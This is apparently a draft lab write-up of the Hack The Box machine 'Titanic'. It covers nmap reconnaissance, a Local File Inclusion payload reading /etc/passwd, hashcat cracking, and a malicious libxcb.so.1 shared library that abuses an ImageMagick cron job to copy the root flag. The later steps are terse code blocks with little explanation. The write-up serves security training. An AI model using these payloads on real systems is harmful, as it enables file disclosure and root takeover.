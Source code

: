 ```yaml
---
title: "HTB Lab | Linux - Titanic"
date: 2025-06-25T23:15:00+07:00
draft: true
tags: ["Linux", "HTB", "HTB Machines", "Web", "Hashcat", "Local File Inclusion", "ImageMagick"]
categories: ["CTF Writeups"]
summary: "How I solved Hack The Box's vulnerable machine \"Titanic\"."
---
```

[![htb-titanic-1.png](htb-titanic-1.png)](https://app.hackthebox.com/machines/648)

# Reconnaissance

Start the machine, the IP given is `10.10.11.55`. We begin by performing an nmap scan on it, revealing 2 open ports:
```
$ nmap -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-25 15:29 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.32 seconds
```
When visiting `http://10.10.11.55`, it will redirect you to `http://titanic.htb`. Here, add `10.10.11.55 titanic.htb` to your `/etc/hosts` file - this resolves the IP as `titanic.htb` automatically.

Exploring the website, we notice there is a form when clicking on "Book Your Trip". 

![htb-titanic-2.png](htb-titanic-2.png)

Filling in garbage information and submit, a JSON file is downloaded. Viewing it shows the information that we just inputted. My initial suspicision was a vulnerability in the actual input fields, but this yields no result. 

# Exploitation
I turn to using Burp Suite to intercept the requests upon clicking 'Submit', revealing a `POST http://titanic.htb/book` and `GET http://titanic.htb/download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json`.

```
GET /download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Notice that the downloaded file is explicitly shown in the URL. Send this request over to Burp Suite's Repeater, and test for [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) by replacing the request as `/download?ticket=/etc/passwd`.

![htb-titanic-3.png](htb-titanic-3.png)

```sh
echo -n "2d149e5fbd1b20cf31db3e3c6a28fc9b" | xxd -r -p | base64
```

```sh
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```

```sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
	system("cp /root/root.txt root.txt; chmod 777 root.txt");
    exit(0);
}
EOF
```

# Learned Skills
- Practical CVE research and hands-on exploitation of ImageMagick vulnerability on actual Linux web server.
